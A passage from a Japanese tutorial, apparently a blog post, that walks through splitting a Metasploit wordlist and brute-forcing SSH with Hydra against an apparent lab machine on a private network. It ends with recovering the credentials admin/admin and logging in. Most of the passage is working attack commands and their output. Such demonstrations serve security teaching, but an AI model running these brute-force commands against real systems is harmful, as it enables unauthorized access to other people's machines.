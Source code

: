 こんな感じで、第一列に「よくあるユーザ名」、第二列に「よくあるパスワード」が載っています。ただ残念ながらこのままでは Hydra に渡せないので、少々面倒ですが二つに分離します。

```
$ cut -d' ' -f1 /usr/share/wordlists/metasploit/piata_ssh_userpass.txt > user.txt
$ cut -d' ' -f2 /usr/share/wordlists/metasploit/piata_ssh_userpass.txt > pass.txt
```

ここまで来たらあと一歩です。`hydra -L <ユーザ名リスト> -P <パスワードリスト> <攻撃先の IP アドレス> <攻撃するサービス名>` とすることでブルートフォースアタックを実行できます。

```console
$ hydra -L user.txt -P pass.txt 192.168.2.101 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-20 02:47:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 839972 login tries (l:917/p:916), ~52499 tries per task
[DATA] attacking ssh://192.168.2.101:22/
[STATUS] 166.00 tries/min, 166 tries in 00:01h, 839807 to do in 84:20h, 15 active
```

・・・しかしどうやら、この調子では推定残り 84 時間は待たされるようです。さすがにそこまでは待てないので、ユーザ名にはあたりがついているということにしてしまいましょう。~~だいたいこんなガバガバシステムの管理者名なんてどうせ "admin" に決まってるんです。~~

```console
$ hydra -l admin -P pass.txt 192.168.2.101 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-20 02:51:28
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 916 login tries (l:1/p:916), ~58 tries per task
[DATA] attacking ssh://192.168.2.101:22/
[22][ssh] host: 192.168.2.101   login: admin   password: admin
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-20 02:51:30
```

一瞬で解析が終わりました。つよい。

というわけでユーザ名 "admin" とパスワード "admin" が手に入ったので、あとはやりたい放題です。

```console
$ ssh admin@192.168.2.101
admin@192.168.2.101's password:
Microsoft Windows [Version 10.0.22621.1992]
(c) Microsoft Corporation. All rights reserved.

admin@LAPTOP-N4PEN9TK C:\Users\admin>dir
 ドライブ C のボリューム ラベルは TIH0261100B です
 ボリューム シリアル番号は 84F2-8BE8 です

 C:\Users\admin のディレクトリ

2023/07/19  16:50    <DIR>          .
2023/07/19  15:51    <DIR>          ..
2023/07/14  14:07    <DIR>          .dotnet
2017/09/29  22:46    <DIR>          Desktop
2023/07/19  15:51    <DIR>          Documents
2017/09/29  22:46    <DIR>          Downloads
```